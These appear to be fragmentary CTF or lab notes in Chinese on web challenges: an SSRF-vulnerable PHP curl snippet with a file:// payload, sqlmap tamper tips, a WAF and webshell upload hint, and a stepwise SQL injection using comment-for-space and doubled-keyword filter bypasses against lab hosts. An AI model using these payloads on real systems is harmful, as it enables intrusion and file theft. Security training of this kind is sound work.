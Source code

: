 ```php
        curl_setopt ($ch, CURLOPT_URL, $_GET['url']);
        curl_exec($ch);
        curl_close($ch);
    }else{
        die('Save it, hacker!');
    }
}


http://123.60.47.130:10015/?url=file://@baidu.com/flag.txt
```





ssrf

只能用loaclhost，不能127



vi文件非正常退出使用 {filename}.swp

。hatasss





SQL注入

--tamper=space2comment过滤空格



http://123.60.47.130:10101 

本地insert into注入 尝试注入标题和内容 均进行尝试
http://123.60.47.130:10101 显示
http://123.60.47.130:10101/admin.php 插入页码
过滤了空格 和注释符



http://123.60.47.130:8081

  通过SQL注入漏洞读取/tmp/360/key文件



http://123.60.47.130:8882

测试其过WAF滤规则，突破上传获取webshell，答案就在根目录下key.php

```
为了加深印象，就还是按照标准测试来：

 发现过滤了空格，union，空格用/**/来代替，union考虑用双写来绕过。

第一步：闭合id找注入点

构造payload   http://192.168.43.99:8081/vulnerabilities/fu1.php?id=1')/**/and/**/1=1#

http://192.168.43.99:8081/vulnerabilities/fu1.php?id=1%27)/**/and/**/1=2%23

第二步：判断字段数：

http://192.168.43.99:8081/vulnerabilities/fu1.php?id=1%27)/**/and/**/1=1/**/group/**/by/**/4%23

第三步：找回显点 

http://192.168.43.99:8081/vulnerabilities/fu1.php?id=1%27)/**/and/**/1=2/**/ununionion/**/select/**/1,2,3,4%23


```